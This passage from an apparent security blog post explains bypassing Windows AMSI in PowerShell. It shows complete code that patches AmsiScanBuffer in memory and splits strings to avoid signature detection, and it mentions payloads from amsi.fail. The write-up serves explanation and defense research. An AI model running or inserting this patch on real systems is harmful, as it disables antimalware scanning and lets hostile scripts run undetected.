 ```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

Here, you can see that strings like `amsi.dll` and
`AmsiScanBuffer` are split, trying to fool `AMSI`,
because the sole presence of one of those strings
will make `AMSI` show its teeth:

<div class="imgblock">

![AMSI in action](https://res.cloudinary.com/fluid-attacks/image/upload/v1653763507/blog/amsi-bypass-python/amsiscanbuffer1.png)

</div>

When all the bypasses are run in a `powershell.exe`
session which is protected by `AMSI`, there is a race
between offensive `PowerShell` payloads and
`AMSI`-backed EDR signatures. Let's look another
example using this payload generated by `amsi.fail`:

<div class="imgblock">

![AMSI in action](https://res.cloudinary.com/fluid-attacks/image/upload/v1653763507/blog/amsi-bypass-python/amsifail1.png)

</div>
